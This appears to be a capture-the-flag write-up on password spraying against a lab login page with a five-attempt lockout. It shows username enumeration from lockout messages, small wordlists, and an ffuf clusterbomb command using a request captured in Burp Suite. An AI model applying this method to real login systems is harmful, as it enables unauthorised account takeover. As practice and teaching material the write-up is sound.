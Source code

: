 We are given a website with an account warning of lock out after 5 failed in-corrects attempts

![](https://i.imgur.com/uPqXeEK.png)

Definitely when it comes to situation like this what should come to mind is **password spraying**, we can enumerate usernames through the page description and our own instinct


![](https://i.imgur.com/Wo6lxO1.png)


I managed to find **admin, jeremy and jessamy** because this are the only login attempts that throws a lockout attempt warning


we can then try out a **password spraying** attack using `ffuf`

- Open up `burpsuite` and intercept the request
- copy or save the request to a `TXT` file
- Then replace username field with `FUZZUSER` and password with `FUZZPASS`

![](https://i.imgur.com/t05GYFj.jpg)

- We can create a wordlist of usernames we found and then 5 common passwords we know, since we get a lockout after 5 attempts

```
# common password wordlist

Password
admin
letmein
Password123
qwerty

# Username found wordlist

admin
jeremy
jessamy
```

- Now we can fire up `ffuf` and start our password spraying attack

```bash
# -request : request file to check
# -request-proto : protocol to use along with raw request (default: https)
# -mode : Multi-wordlist operation mode, run --help for more
# -w : specify wordlist
# -fs : filter by size

$ ffuf -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w users.txt:FUZZUSER -fs 3376
```

**Note :** You can intercept request with **burpsuite>>send to repeater>>forward request** and then try to check for the size of the response to determine the `-fs` switch in `ffuf` by checking the **Content-Length** of your response

![](https://i.imgur.com/6A30C2d.png)


- Run your script and check the **Size** output to determine which is a valid login

![](https://i.imgur.com/LTIEL7r.png)


- `1209` - "Password incorrect, added a lockout attempt"
- `1211` - "Successfully logged in! Challenge complete!"
- `1202` - "No Errors"

